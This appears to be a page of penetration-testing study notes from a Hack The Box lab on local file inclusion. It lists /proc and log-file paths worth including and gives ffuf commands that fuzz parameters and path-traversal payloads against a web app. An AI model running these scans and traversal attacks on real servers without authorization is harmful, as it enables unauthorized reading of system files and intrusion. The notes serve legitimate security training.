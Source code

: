- User-Agent header is also shown on process files under the Linux `/proc/` directory and can try including `/proc/self/environ` or `/proc/self/fd/N` where N is PID usually between 0-50

- some of the service logs we may be able to read
  - `/var/log/sshd.log`
  - `/var/log/mail`
  - `/var/log/vsftpd.log`


# Automated Scanning

## Fuzzing parameters with ffuf

```
thnwht@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

language                    [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

- for more precise scan, [most popular LFI parameter](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters)

## Fuzzing LFI path

```
thnwht@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

## Fuzzing Server Files

### Server webroot

```
thnwht@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

### Server log config

```
thnwht@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

